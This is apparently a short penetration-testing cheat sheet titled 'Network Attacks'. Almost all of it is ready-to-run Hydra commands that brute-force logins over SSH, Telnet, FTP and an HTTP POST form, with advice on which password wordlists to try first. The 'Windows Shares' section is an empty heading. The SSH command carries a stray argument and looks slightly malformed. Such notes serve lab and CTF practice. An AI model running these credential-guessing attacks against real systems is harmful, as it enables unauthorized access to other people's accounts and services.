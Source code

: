 ```yaml
---
description: 'SSH, Telnet, RDP, HTTP auth, Windows shares'
---
```


# Network Attacks

## Hydra

### SSH

```text
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet

```text
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP

```text
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login

```text
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /usr/share/seclists/Passwords/rockyou-10.txt
* /usr/share/seclists/Passwords/rockyou-15.txt The above password lists are recommended to run first before the larger rockyou.txt
* /usr/share/ncrack/minimal.usr for users list.

## Windows Shares



